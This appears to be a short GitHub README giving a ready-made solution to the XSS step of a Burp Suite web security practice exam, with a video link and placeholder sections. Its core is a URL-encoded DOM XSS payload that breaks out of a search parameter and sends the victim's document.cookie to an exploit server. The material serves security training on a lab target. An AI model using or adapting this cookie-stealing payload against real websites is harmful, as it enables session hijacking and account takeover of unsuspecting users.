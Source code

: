 # BurpPracticeExamXSS

https://www.youtube.com/watch?v=fNoX_9v6-aY

Note: the search parameter changes from time to time in the practice exam, so make sure to replace the ?find parameter in the script below to what ever your parameter is

```
<script>
location='https://xxx.web-security-academy.net/?find=burpdomxss%22%2C%22test%22%3A(window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2Fexploit-xxx%252eweb-security-academy%252enet%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D)%7D%2F%2F';
</script>
```

## Where exactly you must input your URL information and search parameter information into this script:

- the place of the URL LAB:
```
?
```
- The pace of the exploit URL server:
```
?
```
- Where you must input your search parameter: 
```
?
```
